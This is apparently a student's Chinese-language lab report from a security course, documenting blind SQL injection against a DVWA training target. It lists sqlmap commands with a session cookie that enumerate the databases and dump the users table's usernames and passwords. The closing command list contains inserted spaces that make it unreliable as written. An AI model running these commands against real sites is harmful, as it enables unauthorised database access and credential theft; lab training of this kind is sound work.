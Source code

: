 ```yaml
---
title: 网络安全实训6——SQL注入
tags:
  - 网络安全实训
  - SQL注入
categories:
  - 网络安全
  - 实训
  - 实验报告
abbrlink: b81117d1
date: 2024-07-13 08:06:00
---
```


# 网络安全实训 6——SQL 注入

## 安装环境

知新平台的文档图片无法加载

![image-20240713082058344](../images/zuolao/6/image-20240713082058344.png)

![image-20240713082140158](../images/zuolao/6/image-20240713082140158.png)

查看源码发现是外部引用，尝试恢复

恢复成功

![image-20240713082204564](../images/zuolao/6/image-20240713082204564.png)

## 开启 OWASP 靶机和 Kali 虚拟机

登录 dvwa

![image-20240713082833701](../images/zuolao/6/image-20240713082833701.png)

安全等级调 low

![image-20240713082944615](../images/zuolao/6/image-20240713082944615.png)

进入 SQL Injection（Blind）页面

![image-20240713083014817](../images/zuolao/6/image-20240713083014817.png)

### 随意输入一个数字，然后点击提交

![image-20240713083040908](../images/zuolao/6/image-20240713083040908.png)

### 安装 SQLmap

我用的是裸机当攻击机，所以安装个 SQLmap

![image-20240713083253628](../images/zuolao/6/image-20240713083253628.png)

### 用 F12 打开开发者工具

### 选中 Storage（存储）选项卡，找到 cookies，复制其中 PHPSESSID 的值（获取 cookies）

得到 `59mb9spqvkd9cuk543thagtsd5`

### 由于浏览器提交方式为 get 型，sqlmap 采用-u 命令。将刚才复制的 URL 和 COOKIE 写入命令

![image-20240713083823046](../images/zuolao/6/image-20240713083823046.png)

![image-20240713084248322](../images/zuolao/6/image-20240713084248322.png)

出错了，查看 Github 的 README 发现是需要前面加 `python` 运行

![image-20240713084138720](../images/zuolao/6/image-20240713084138720.png)

找到注入点

![image-20240713085141292](../images/zuolao/6/image-20240713085141292.png)

### 为了查看有哪些数据库，输入命令：

`python sqlmap.py -u "http://192.168.189.134/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low;PHPSESSID=59mb9spqvkd9cuk543thagtsd5" --batch --dbs`

![image-20240713085259586](../images/zuolao/6/image-20240713085259586.png)

### 为了查看有当前数据库，输入命令

`python sqlmap.py -u "http://192.168.189.134/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low;PHPSESSID=59mb9spqvkd9cuk543thagtsd5" --batch --current-db`

![image-20240713085348741](../images/zuolao/6/image-20240713085348741.png)

### 为了查看数据库中所有的表，输入命令

`python sqlmap.py -u "http://192.168.189.134/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low;PHPSESSID=59mb9spqvkd9cuk543thagtsd5" --batch -D dvwa --tables`

![image-20240713085431822](../images/zuolao/6/image-20240713085431822.png)

### 为了查看 users 表中有哪些列，输入命令

`python sqlmap.py -u "http://192.168.189.134/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low;PHPSESSID=59mb9spqvkd9cuk543thagtsd5" --batch -D dvwa -T users --columns`

![image-20240713085615328](../images/zuolao/6/image-20240713085615328.png)

### 爆破表中 user 和 password 这两列

`python sqlmap.py -u "http://192.168.189.134/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low;PHPSESSID=59mb9spqvkd9cuk543thagtsd5" --batch -D dvwa -T users -C"user,password" --dump`

爆破成功

![image-20240713085739164](../images/zuolao/6/image-20240713085739164.png)

上面有报错，问了下 ChatGPT-4o，也没啥有用的信息

![image-20240713090351933](../images/zuolao/6/image-20240713090351933.png)

重试了一下正常了

![image-20240713090344216](../images/zuolao/6/image-20240713090344216.png)

## 过程中的命令

输入命令的时候容易出错的地方主要是：引号必须加，否则命令会被识别为系统&命令，还有英文字符，写成中文字符会报错

- python sqlmap.py -u "http://192.168.189.134/dvwa/vulnerabilities/sqli_blind/?id = 1&Submit = Submit#" --cookie = "security = low; PHPSESSID = 59mb9spqvkd9cuk543thagtsd5" --batch

- python sqlmap.py -u "http://192.168.189.134/dvwa/vulnerabilities/sqli_blind/?id = 1&Submit = Submit#" --cookie = "security = low; PHPSESSID = 59mb9spqvkd9cuk543thagtsd5" --batch --dbs

- python sqlmap.py -u "http://192.168.189.134/dvwa/vulnerabilities/sqli_blind/?id = 1&Submit = Submit#" --cookie = "security = low; PHPSESSID = 59mb9spqvkd9cuk543thagtsd5" --batch --current-db

- python sqlmap.py -u "http://192.168.189.134/dvwa/vulnerabilities/sqli_blind/?id = 1&Submit = Submit#" --cookie = "security = low; PHPSESSID = 59mb9spqvkd9cuk543thagtsd5" --batch -D dvwa --tables

- python sqlmap.py -u "http://192.168.189.134/dvwa/vulnerabilities/sqli_blind/?id = 1&Submit = Submit#" --cookie = "security = low; PHPSESSID = 59mb9spqvkd9cuk543thagtsd5" --batch -D dvwa --tables

- python sqlmap.py -u "http://192.168.189.134/dvwa/vulnerabilities/sqli_blind/?id = 1&Submit = Submit#" --cookie = "security = low; PHPSESSID = 59mb9spqvkd9cuk543thagtsd5" --batch -D dvwa -T users --columns

- python sqlmap.py -u "http://192.168.189.134/dvwa/vulnerabilities/sqli_blind/?id = 1&Submit = Submit#" --cookie = "security = low; PHPSESSID = 59mb9spqvkd9cuk543thagtsd5" --batch -D dvwa -T users -C "user, password" --dump
